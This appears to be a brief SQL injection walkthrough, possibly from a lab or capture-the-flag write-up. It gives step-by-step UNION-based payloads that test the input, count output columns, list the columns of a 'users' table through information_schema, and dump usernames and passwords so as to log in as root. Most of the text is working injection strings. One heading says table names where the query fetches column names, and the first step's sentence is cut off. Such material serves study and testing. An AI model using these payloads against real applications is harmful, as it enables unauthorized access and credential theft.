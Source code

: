 # SQL Injection Walkthrough

## Step 1: Test for Input Type
Begin by testing the input type to understand how the application processes user
```sql
1 OR 1=1--
```


## Step 2: Check the Number of Output Fields
Use the following query:
```sql
1' UNION SELECT null, null, null FROM information_schema.tables;-- -
```
This query checks the number of output fields by trying different numbers of null values.

> You could also find the number of output fields by using the following query:
> ```sql
> 1' UNION SELECT null, null, null, null FROM information_schema.tables;-- -
> ```
>> Using the query above, you can determine the number of output fields by increasing the number of null values. So just remove or add null values to find the correct number of output fields.

### Step 3: Find Table Names
Use the following query to retrieve table names:
```sql
1' UNION SELECT column_name, null, null FROM information_schema.columns WHERE table_name='users';-- -
```
This query retrieves column names from the users table.

### Step 4: Retrieve Name and Password Columns from a Known Table
Use the following query:

```sql
1' UNION SELECT username, password, null FROM users;-- -
```
This query retrieves the username and password columns from the users table.
The table displays the root’s password, which can be used to sign in.


